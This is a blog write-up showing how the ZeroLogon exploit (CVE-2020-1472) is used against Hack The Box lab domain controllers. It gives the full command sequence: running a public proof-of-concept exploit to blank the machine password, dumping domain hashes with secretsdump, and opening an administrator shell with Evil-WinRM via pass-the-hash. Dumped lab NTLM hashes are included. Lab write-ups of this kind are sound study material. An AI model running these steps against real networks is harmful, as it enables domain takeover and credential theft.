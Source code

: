 # ZeroLogon - Owning HTB machines with CVE-2020-1472

[cve-2020-1472](/tags#cve-2020-1472 ) [exploit](/tags#exploit ) [domain-
controller](/tags#domain-controller ) [htb-monteverde](/tags#htb-monteverde )
[zerologon](/tags#zerologon ) [impacket](/tags#impacket )
[python](/tags#python ) [virtualenv](/tags#virtualenv )
[secretsdump](/tags#secretsdump )  
  
Sep 17, 2020

ZeroLogon - Owning HTB machines with CVE-2020-1472

![cascade](https://0xdfimages.gitlab.io/img/zero-cover.png)

CVE-2020-1472 was patched in August 2020 by Microsoft, but it didn’t really
make a splash until the last week when proof of concept exploits started
hitting GutHub. It truly is a short path to domain admin. I’ll look at the
exploit and own some machines from HTB with it.

## Background

CVE-2020-1472, or ZeroLogon, abuses a bug in a customized authentication
scheme used by the Netlogon Remote Protocol. Secura put out a [whitepaper
about the vulnerability](https://www.secura.com/pathtoimg.php?id=2055) that
goes into all the details of what is broken. The gist is the authentication
protocol insecurely uses AES-CFB8, which allows the attacker to spoof the
client credential, disable signing and sealing, spoof a call to the this RPC
service, which happens to be responsibly for letting a computer update its
password, but only to an empty password.

However, once the attacker knows the machine account password for a domain
controller, they are able to dump all the hashes from the computer, where it
is then trivial to use the administrator hash to get a session. This means
that any attacker with network access to an unpatched domain controller can
become domain admin.

**This exploit will change the machine password of the target domain
controller to be the empty string. This will break things. Do not use these
outside a CTF / lab environment without fully testing and understanding the
risks, and measuring them against your tolerance.** Many of the POCs come with
scripts to restore the machine password after the attack, which could be
useful for helping to restore the machine (but again, you’ll want to test and
get comfortable with those).

## Setup

### POC

There are a bunch of POCs out there. I ended up playing with [this
one](https://github.com/dirkjanm/CVE-2020-1472). I just went into `/opt` on my
local machine and ran `git clone
https://github.com/dirkjanm/CVE-2020-1472.git` to get a copy.

### Impacket

[Impacket](https://github.com/SecureAuthCorp/impacket) is a collection of
Python classes that work with network protocols, and are specifically really
good at Windows protocols. All of the POCs I found use Impacket to do the
Windows-specific protocols. Unfortunately, the POCs all need the latest
version of Impactet, which isn’t what is available through the package
managers yet. And, you can really dork your computer (or VM) by installing
Python tools in multiple ways.

To get around this, I installed a copy of Impacket into a Python virtual
environment. I cloned a copy with `git clone
https://github.com/SecureAuthCorp/impacket.git`. Then, `cd impacket`, and I’ll
create a virtual env with `python3 -m venv venv`. Now activate it, and see
that the prompt changes:

    
    
    root@kali:/opt/impacket# source venv/bin/activate
    (venv) root@kali:/opt/impacket#
    

Now `pip install .` will install Impacket. As long as I’m running with the
virtual env activated, it will all work nicely together. To deactivate the
virtual environment, I’ll just run `deactivate`.

## Example - Monteverde

There are tons of boxes on HTB that are domain controller to test on. I’ll
start with [Monteverde](/2020/06/13/htb-monteverde.html). If I try to dump the
password hashes using the machine account and an empty password, it fails:

    
    
    (venv) root@kali:/opt/impacket# secretsdump.py -just-dc -no-pass MONTEVERDE\$@10.10.10.172
    Impacket v0.9.22.dev1+20200915.115225.78e8c8e4 - Copyright 2020 SecureAuth Corporation
    
    [-] RemoteOperations failed: SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
    [*] Cleaning up... 
    

`STATUS_LOGON_FAILURE` calls out an invalid logon.

Now I’ll run the exploit:

    
    
    (venv) root@kali:/opt/impacket# python /opt/CVE-2020-1472/cve-2020-1472-exploit.py MONTEVERDE 10.10.10.172
    Performing authentication attempts...
    ===========================================================================================================================================================================================================================================
    Target vulnerable, changing account password to empty string
    
    Result: 0
    
    Exploit complete!
    

Now, I’ll run the same `secretsdump` command. I’ll give it a username of the
machine account (typically the hostname with a `$` appended), and use the
`-no-pass` flag:

    
    
    (venv) root@kali:/opt/impacket# secretsdump.py -just-dc -no-pass MONTEVERDE\$@10.10.10.172                            
    Impacket v0.9.22.dev1+20200915.115225.78e8c8e4 - Copyright 2020 SecureAuth Corporation
                                                              
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:100a42db8caea588a626d3a9378cd7ea:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3480c0ed5001f14fa7a49fdf016043ff:::
    AAD_987d7f2f57d2:1104:aad3b435b51404eeaad3b435b51404ee:599716220acac74a2d9049230d3a8b06:::
    MEGABANK.LOCAL\mhope:1601:aad3b435b51404eeaad3b435b51404ee:f875f9a71efc6b0ee93dd906aedbc8b6:::
    MEGABANK.LOCAL\SABatchJobs:2602:aad3b435b51404eeaad3b435b51404ee:fd980edb4732d8175a52a9b5e1520bc1:::
    MEGABANK.LOCAL\svc-ata:2603:aad3b435b51404eeaad3b435b51404ee:d192ea098c69b7d26c50808a5ac75bea:::
    MEGABANK.LOCAL\svc-bexec:2604:aad3b435b51404eeaad3b435b51404ee:2e4de9439cfd99f861dec8fc460c47e3:::
    MEGABANK.LOCAL\svc-netapp:2605:aad3b435b51404eeaad3b435b51404ee:6bd17d9707c3da465b96cdf0e1a3a4d6:::
    MEGABANK.LOCAL\dgalanos:2613:aad3b435b51404eeaad3b435b51404ee:7a695f4cc64a302d8e53da58f0885736:::
    MEGABANK.LOCAL\roleary:2614:aad3b435b51404eeaad3b435b51404ee:cb3fa0132c099c5b29c30ef128e90ad8:::
    MEGABANK.LOCAL\smorgan:2615:aad3b435b51404eeaad3b435b51404ee:3a2b291c4291a1063a4b32e1770e5388:::
    MONTEVERDE$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    ...[snip]...
    

I can use that administrator hash to get a WinRM session with [Evil-
WinRM](https://github.com/Hackplayers/evil-winrm):

    
    
    root@kali:/opt/impacket# evil-winrm -u administrator -i 10.10.10.172 --hash '100a42db8caea588a626d3a9378cd7ea'
    
    Evil-WinRM shell v2.3
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents>
    

I tried the same process on a handful of other retired machines, with total
success.

[](/2020/09/17/zerologon-owning-htb-machines-with-cve-2020-1472.html)

